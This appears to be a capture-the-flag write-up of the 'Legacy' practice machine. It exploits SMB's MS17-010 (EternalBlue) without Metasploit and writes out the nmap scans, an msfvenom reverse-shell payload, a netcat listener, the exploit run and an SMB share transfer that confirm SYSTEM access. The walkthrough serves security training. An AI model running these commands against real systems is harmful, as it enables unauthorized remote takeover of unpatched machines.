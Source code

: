 # Legacy Writeup w/o Metasploit

![](../images/max/587/1*lTQ336Aj68RUNHuYjdCE5A.png)

## Reconnaissance <a id="3ccd"></a>

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

```text
nmap -sC -sV -O -oA nmap/initial 10.10.10.4
```

* **-sC**: run default nmap scripts
* **-sV**: detect service version
* **-O**: detect OS
* **-oA**: output all formats and store in file _nmap/initial_

We get back the following result showing that these ports are open:

* **Port 139:** running Microsoft Windows netbiois-ssn.
* **Port 445:** running Windows XP microsoft-ds.

![](../images/max/1088/1*IUyh9A6LTMxxHZFDqLDJ-A.png)

Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

```text
nmap -sC -sV -O -p- -oA nmap/full 10.10.10.4
```

We get back the following result. No other ports are open.

![](../images/max/1089/1*eVcfYf1UYWWYSuLHPm1lWw.png)

Similarly, we run an nmap scan with the **-sU** flag enabled to run a UDP scan.

```text
nmap -sU -O -p- -oA nmap/udp 10.10.10.4
```

We get back the following result. As can be seen, port 137 is open with netbios-ns running on it.

![](../images/max/842/1*6Z85NaGdaLut4D_mPXlvow.png)

Our initial recon shows that the only point of entry is possibly through exploiting SMB.

## Enumeration <a id="3248"></a>

SMB has had its fair share of vulnerabilities in the past, so let’s first run nmap scripts to determine if it is vulnerable.

```text
nmap -v -script smb-vuln* -p 139,445 10.10.10.4
```

![](../images/max/1032/1*QDuJY0ngDs-8FdgrNYBaaA.png)

The result shows us that it is vulnerable to CVE-2009–3103 and CVE-2017–0143 and likely vulnerable to CVE-2008–4250. The target machine is running SMBv1 so we’ll go with CVE-2017–0143 \(MS17–010\).

## Exploitation <a id="d6e0"></a>

The vulnerability we’ll be exploiting is called Eternal Blue. This vulnerability exploited Microsoft’s implementation of the Server Message Block \(SMB\) protocol, where if an attacker sent a specially crafted packet, the attacker would be allowed to execute arbitrary code on the target machine.

I came across this [article](https://ethicalhackingguru.com/how-to-exploit-ms17-010-eternal-blue-without-metasploit/) that explains how to exploit the Eternal Blue vulnerability without using Metasploit. We’ll use it to run the exploit on the target machine.

First, download the exploit code from Github.

```text
git clone https://github.com/helviojunior/MS17-010.git
```

Use MSFvenom to create a reverse shell payload \(allowed on the OSCP as long as you’re not using meterpreter\).

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.6 LPORT=4444 -f exe > eternalblue.exe
```

Start up a listener on your attack machine.

```text
nc -nlvp 4444
```

Run the exploit.

```text
python send_and_execute.py 10.10.10.4 ~/Desktop/eternalblue.exe
```

![](../images/max/922/1*Alda1JRD2rRuYdtVQebetA.png)

We have a reverse shell!

![](../images/max/605/1*2gHkz5wfmvtdHyQK-y9gLw.png)

Next, we need to figure out what privileges we are running with.

![](../images/max/642/1*TluyrrJPkLZVsMGFglzNUg.png)

**Whoami** doesn’t seem to work and we can’t echo the username. Therefore, we’ll have to get creative. Kali has a **whoami** executable that we can import to our target machine.

![](../images/max/758/1*Ojfn655VnEMs4Fv1qEnbFQ.png)

Both netcat and powershell are not installed on the target machine, so we can’t use them to import the executable. Therefore, let’s try and setup an SMB server for the transfer.

Locate the SMB server script on kali.

![](../images/max/609/1*qgbBM40SQzWr8k7xvCKHug.png)

Run the script to launch an SMB server on port 445 with the share name _temp_ and the path to the whoami executable.

```text
sudo /usr/share/doc/python-impacket/examples/smbserver.py temp /usr/share/windows-binaries/
```

![](../images/max/955/1*xNqDs4gYn8apG5g6E2R1Sw.png)

Verify that script ran correctly by accessing the SMB share.

```text
smbclient //10.10.14.6/temp
```

List the content of the directory.

![](../images/max/819/1*BLx78KtaOD7QV8G-_5mObQ.png)

In the target machine, you can now execute the whoami command using the temp share.

```text
\\10.10.14.6\temp\whoami.exe
```

![](../images/max/541/1*usNmdlrHuOjrDx_BxFqmTg.png)

We have SYSTEM! We don’t need to escalate privileges for this box.

Grab the user flag.

![](../images/max/645/1*GNs8Y_VHjws5cZz9ka8iKA.png)

Grab the root flag.

![](../images/max/649/1*tW2RsJnMZIsDozzq6WIm1w.png)

## Lessons Learned <a id="a30a"></a>

This was a relatively simple machine to solve. It was running a vulnerable outdated version of SMB. So far, I’ve solved four machine and each one of them required me to exploit a vulnerable version of some software to either gain a foothold on the machine or to escalate privileges. So it goes without saying that you should always update your systems **especially** when updates are released for critical vulnerabilities! If the user had installed the MS17–010 security update, I would have had to find another way to exploit this machine.

